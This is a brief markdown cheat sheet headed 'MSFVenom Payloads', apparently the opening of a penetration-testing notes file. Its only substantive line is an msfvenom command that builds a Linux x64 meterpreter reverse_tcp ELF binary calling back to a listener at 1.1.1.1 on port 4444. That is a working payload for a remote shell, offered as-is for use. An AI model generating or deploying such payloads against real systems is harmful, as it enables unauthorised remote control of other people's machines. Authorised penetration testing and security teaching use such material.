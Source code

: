 # MSFVenom Payloads

# linux target

### meterpreter

elf binary
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f elf -o /path/to/bin`